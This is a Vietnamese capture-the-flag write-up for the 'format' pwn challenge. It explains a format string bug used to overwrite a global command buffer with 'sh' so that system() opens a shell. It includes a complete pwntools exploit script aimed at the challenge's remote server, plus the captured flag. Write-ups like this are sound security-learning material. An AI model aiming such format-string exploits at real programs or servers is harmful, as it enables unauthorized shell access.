






# format.
## Hướng giải.


- chall này có lỗi `format strings` và cũng có sẵn `system` , nhưng mà nó lại thực hiện cmd như trên hình bạn thấy , chall này khá dễ nhưng mà mình mò tận 4 tiếng :( . Vì có `format strings` nên ta có thể ghi đè , ta sẽ ghi đè cmd bằng lệnh `/bin/sh\0` , nhưng mà `/bin/sh\0` tới 8 byte đó điều ko thể , thế nên ta sẽ thay thế nó bằng lệnh `sh` ngắn hơn và phù hợp hơn.
- Vào check gdb thì ta thấy `pie` tắt thế nên địa chỉ ta ko cần leak.

- Địa chỉ của `cmd`

- Ta tiến hành viết script thui :
```
#!/usr/bin/python3

from pwn import *

exe = ELF('format', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x00000000004011f6
                b*0x0000000000401223
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116',12001)
else:
        p = process(exe.path)

GDB()
binsh = u64(b'sh\0\0\0\0\0\0')
print(binsh)
payload = f'%{0x006873}c%10$n'.encode()
payload = payload.ljust(0x10)
payload += p64(0x404060)
s(payload)
p.interactive()
```
- Script hoàn thành như trên để chuỗi `sh` có thể tạch biệt với chuỗi đã có trước nên mình thêm vào 1 byte `0x00` để `system` có thể thực thi `sh`
- Chạy script trên là ta đã thu được shell.

- Và ồ ta phải tự kiếm flag ròi , mình xài lệnh `find . -name flag` để kiếm dễ dàng hơn và cat flag thui.

`FLAG: KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}`
